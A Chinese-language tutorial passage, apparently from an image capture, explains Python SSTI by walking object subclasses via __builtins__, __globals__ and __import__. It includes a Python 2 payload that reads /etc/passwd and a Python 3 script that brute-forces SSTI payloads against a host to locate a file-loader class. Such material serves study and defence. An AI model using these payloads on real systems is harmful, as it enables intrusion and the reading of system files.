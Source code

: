 `__builtins__`：以一个集合的形式查看引用

builtins是python中的一个模块。该模块提供对Python的所有“内置”标识符的直接访问；例如，builtins.open 是内置函数的全名 open() 。

当我们启动一个python解释器时，即使没有创建任何变量或者函数，还是会有很多函数使用，我们称之为内建函数。

内建函数并不需要我们自己做定义，而是在启动python解释器的时候，就已经导入到内存中供我们使用。

`__builtins__`方法是作为默认初始模块出现的，可用于查看当前所有导入的内建函数。

`__globals__`：该方法会以字典的形式返回当前位置的所有全局变量，与 func_globals 等价。该属性  
是函数特有的属性，记录当前文件全局变量的值，如果某个文件调用了os、sys等库，但我们只能访问该  
文件某个函数或者某个对象，那么我们就可以利用globals属性访问全局的变量。该属性保存的是函数全  
局变量的字典引用。

`__import__()`：该方法用于动态加载类和函数 。如果一个模块经常变化就可以使用 **import**()  
来动态载入，就是 import 。语法： **import**(模块名)

这样我们在进行SSTI注入的时候就可以通过这种方式使用很多的类和方法，通过子类再去获取子类的子  
类、更多的方法，找出可以利用的类和方法加以利用。总之，是通过python的对象的继承来一步步实现  
文件读取和命令执行的：

```
找到父类<type 'object'> ---> 寻找子类 ---> 找关于命令执行或者文件操作的模块。
```

### 用SSTI读取文件

#### python2

在上文中我们用`__subclass__`看到了基类的所有子类，在我们整理的子类中的第四十项`(40, <type 'file'>)`（实际的索引可能不同，需要动态识别），可以用于读写文档

```
>>>[].__class__.__mro__[-1].__subclasses__()[40]
<type 'file'>
>>>[].__class__.__mro__[-1].__subclasses__()[40]("/etc/passwd").read()
'##\n# User Database\n# \......'
builtins
```

#### python3

使用file类读取文件的方法仅限于Python 2环境，在Python 3环境中file类已经没有了。我们可以用  
这个类去读取文件。

首先编写脚本遍历目标Python环境中 `<class '_frozen_importlib_external.FileLoader'>`这个类索引号：

```
import requests
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name=
{{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"
    res = requests.get(url=url, headers=headers)
    if 'FileLoader' in res.text:
        print(i)
# 得到编号为79
```
